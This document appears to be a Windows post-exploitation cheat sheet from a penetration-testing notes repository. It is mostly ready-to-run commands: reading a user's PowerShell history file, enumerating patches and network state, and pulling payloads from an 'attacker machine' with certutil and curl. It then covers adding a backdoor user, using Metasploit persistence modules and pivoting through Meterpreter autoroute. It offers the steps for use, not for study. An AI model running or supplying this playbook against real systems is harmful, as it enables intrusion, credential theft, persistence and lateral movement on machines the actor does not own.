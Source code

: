 ##  Information collection

Recently accessed files and executed commands

    type C:\Users\<user>\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt 


List of installed patches

    wmic qfe get Caption,Description,HotFixID,InstalledOn
 
 
Network connections

    netstat -r    # route info
    
    netstat -ano  # connections and the PID
    
    route print
    
    
Processes
 
     tasklist
    
    

Arp table

    arp -a
    
**Egrees firewall testing:**

 If python is useable: 
 
    https://github.com/stufus/egresscheck-framework
    
 If python is not useable and powershell is: 
 
     powershell.exe Get-Alias -Definition Invoke-WebRequest | Format-Table -AutoSize
     
     powershell.exe curl http://<ip>:<port>/x

-------------------------------------------------------------------------------------

## Exploits

   
Auto finding exploits based on system information and installed patches
 
    cmd.exe /c systeminfo > systeminfo.txt

    ./winpwnSuggester.py --update

    ./winpwnSuggester.py --database YYYY-MM-DD-mssb.xls --systeminfo ~/sysinfo.txt
  
    [Windows Exploit Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)


meterpreter exploit suggester module

    post/recon/local_exploit_suggester
    post/multi/recon/local_exploit_suggester


-------------------------------------------------------------------------------------

## Downloading files from attacker machine 

    curl http://<ip>:8000/<file> -O <file>
    
    certutil.exe -urlcache -f http://<ip>:8000/<remotefile> <save filename>
    
    Naviage directly through browser 
    
    ftp <ip>   #On attacker machine: python -m pyftpdlib 21  

    upload  #If using meterpreter


 ## Maintain persistence

  - Add user
  
        net user <username> <pass> /add

  - Metasploit
  
        exploit/windows/local/persistence
        
        exploit/windows/local/registry_persistence

        run persistence -h

  - Set a scheduled task


## Pivoting

 If pwnd target has a connection to a network that we do not have a connection to, we can set up a route on the machine to forward our traffic 
 
   - Meterpreter 
   
         run autoroute -s <target network seen via enumeration>/CIDR
         
         run autoroute -p   #to confirm
         
       you can now test by pinging a device on the remote network
       
       
## Escalating privilege

[Token impersonation](https://github.com/Kahvi-0/Vulnerabilities-and-Exploitations/blob/master/Local/Token%20Impersonation.md)

# Find more

 Metasploit:
 
   post/winodws/
